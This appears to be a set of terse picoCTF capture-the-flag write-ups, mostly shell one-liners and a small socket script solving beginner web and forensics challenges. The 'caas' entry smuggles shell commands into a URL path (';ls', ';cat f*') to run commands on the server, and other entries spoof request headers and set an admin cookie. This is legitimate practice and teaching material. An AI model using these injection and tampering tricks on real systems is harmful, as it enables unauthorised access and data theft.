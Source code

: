 # :robot: - where are the robots - `4`
```sh
$ curl http://jupiter.challenges.picoctf.org:36474/robots.txt
. . .
User-agent: *
Disallow: /_.html
. . .

$ curl http://jupiter.challenges.picoctf.org:36474/_.html
```

# :female_detective: - Insp3ct0r - `18`
```r
#!/bin/bash

alias cmd='grep -i flag | sed "s/^.*flag: //" | sed "s/ .*$//" '
url='https://jupiter.challenges.picoctf.org/problem/41511'

curl -s ${url}/index.html | cmd
curl -s ${url}/mycss.css | cmd
curl -s ${url}/myjs.js | cmd
```
[script](https://github.com/nuoxoxo/writeups/blob/main/scripts/pico_insp3ct0r.sh)

# :wood: - logon - `46`
- in chrome do `chrome://flags`
- set Partitioned cookies to enable
- relaunch and set admin cookie to true 

# :thread: - dont-use-client-side - `66`
```r
$ curl http://jupiter.challenges.picoctf.org:37821 | grep substring 
```

# :question: - who are you - `142`
```r
# HTTP Requests for Comments (RFC)

$ curl -H "user-agent: PicoBrowser" \
-H "referer: mercury.picoctf.net:34588" \
-H "date: 2018" 
-H "DNT: 1" \
-H "origin: sweden" \
-H "x-forwarded-for: 31.44.224.0" \
-H "accept-language: sv-swe" \
http://mercury.picoctf.net:34588
```

# :carrot: - Mod 26 - `144`
```sh
# ROT13
$ echo _ | tr 'n-za-mN-ZA-M' 'a-zA-z'

# or alternatively
$ echo _ | tr "A-Za-z" "N-ZA-Mn-za-m"

```

# :accept: - Some Assembly Required 1 - `152`
###### hint: path in script

# :cat: - Nice netcat - `156`
```sh
import socket

host = 'mercury.picoctf.net'
port = 49039
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host, port))
data = s.recv(256).decode('utf-8').split()
L = [int(n) for n in data]
for c in L:
    print(chr(c), end='')
s.close()
```

# :hungary: - scavenger hunt - `161`
```r
#!/bin/bash

alias cmd='grep -i part | sed "s/^.*: //" | sed "s/ .*$//" '
url='http://mercury.picoctf.net:55079'

curl -s ${url} | cmd
curl -s ${url}/mycss.css | cmd
curl -s ${url}/robots.txt | cmd
curl -s ${url}/.htaccess | cmd
curl -s ${url}/.DS_Store | cmd
```
[script](https://github.com/nuoxoxo/writeups/blob/main/scripts/pico_scavenger_hunt.sh)

###### edited from
```sh
#!/bin/bash

curl -s -n http://mercury.picoctf.net:55079 | grep -i part | sed "s/^.*: //" | sed "s/ .*$//"
curl -s http://mercury.picoctf.net:55079/mycss.css | grep -i part | sed "s/^.*: //" | sed "s/ .*$//"
curl -s http://mercury.picoctf.net:55079/robots.txt | grep -i part | sed "s/^.*: //" | sed "s/ .*$//"
curl -s http://mercury.picoctf.net:55079/.htaccess | grep -i part | sed "s/^.*: //" | sed "s/ .*$//"
curl -s http://mercury.picoctf.net:55079/.DS_Store | grep -i part | sed "s/^.*: //" | sed "s/ .*$//"
```

# :snake: - Python Wrangling - `166`
```scala
$ wget _ _ _ && cat pw.txt | python3 ende.py -d flag.txt.en
```

# :baseball: - login - `200`
###### hint: base64

# :cow: - caas - `202`
```sh
$ curl "https://caas.mars.picoctf.net/cowsay/pwd;ls"
$ curl "https://caas.mars.picoctf.net/cowsay/xxx;cat f*"
```

[github flavor emoji list](https://gist.github.com/rxaviers/7360908)

# :rainbow_flag: - wave a flag - `170`
```sh
$ strings warm | grep pico
```

# :information_source: - information - `186`
```scala
$ exiftool cat.jpg | grep -i license | sed "s/^.*: //" | base64 -d
```
